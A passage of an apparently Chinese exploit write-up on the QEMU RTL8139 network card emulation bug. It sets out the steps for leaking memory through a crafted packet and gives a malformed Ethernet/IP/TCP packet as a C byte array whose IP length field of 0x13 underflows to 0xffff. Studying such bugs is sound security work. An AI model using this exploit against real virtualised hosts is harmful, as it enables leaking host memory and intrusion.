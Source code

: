 ```c
        s->IntrStatus |= TxOK;
        rtl8139_update_irq(s);
    }
}

```



### 漏洞利用

利用包含五个部分：

- 恶意网卡发送数据包的构造
- 网卡寄存器的配置
- 网卡发送缓冲区的配置
- 网卡接收缓冲区的配置
- 泄露信息的分析

1. 恶意网卡发送数据包的构造

   因为会判断mac地址与自身mac地址是否相等，所以需要将目的地址设置成网卡地址，此处可以获取到mac地址为 52:54:00:12:34:57

   ```shell
   enp0s4: flags=4098<BROADCAST,MULTICAST>  mtu 1500
           ether 52:54:00:12:34:57  txqueuelen 1000  (Ethernet)
           RX packets 0  bytes 0 (0.0 B)
           RX errors 0  dropped 0  overruns 0  frame 0
           TX packets 0  bytes 0 (0.0 B)
           TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
   
   ```

   还需要将类型设置为IP包，即0x0800

   IP数据包中需要构造的是16位总长度，`#define IP_HEADER_LENGTH(ip) (((ip->ip_ver_len)&0xf) << 2)`的长度为`5<<2`是20，因此需要构造`ip->ip_len`长度为`19(0x13)`，实现了漏洞构造`ip_data_len`为`0xffff`。

   tcp包就正常构造即可。

   最后的`packet`结构是：

   ```c
   uint8_t malformed_eth_packet[]={
       // 分别是6字节的目的地址和6字节的源地址，此处都是本身的网卡地址52:54:00:12:34:57
       0x52, 0x54, 0x00, 0x12, 0x34, 0x57, 0x52, 0x54, 0x00, 0x12, 0x34, 0x57, 
       // 两字节设置为IP包，也就是0x0800，接下来就是设置IP数据包格式，分别是4byte的版本和4byte的首部长度（这里是4和5），8byte的TOS（这里是00），16byte的总长度（这里是0x0013）（0x13 - (0x5 << 2) = 0xffff，导致溢出），2字节的id（这里是0xdead），2字节的片段偏移（这里是0x4000），1字节的ttl（这里是0x40），1字节的协议（这里是0x06，代表IP协议）
       0x08, 0x00, 0x45, 0x00, 0x00, 0x13, 0xde, 0xad, 0x40, 0x00, 0x40, 0x06, 
       // 两字节的首部校验和，32位（4字节）的源地址，32位的目的地址，接下来就是tcp数据包的内容，2字节的源端口号（0x0400）
       0xff, 0xff, 0x7f, 0x00, 0x00, 0x01, 0x7f, 0x00, 0x00, 0x01, 0x04, 0x00, 
       // 2字节的目的端口号（0x0400），4字节的序号，4字节的确认序号，2字节的长度（其中4byte的tcp首部长度）
       0x04, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x50, 0x10,
       // 2字节的窗口大小，2字节的校验和，2字节的紧急指针
       0x00, 0x00, 0xff, 0xff, 0x00, 0x00
           
   };
   ```

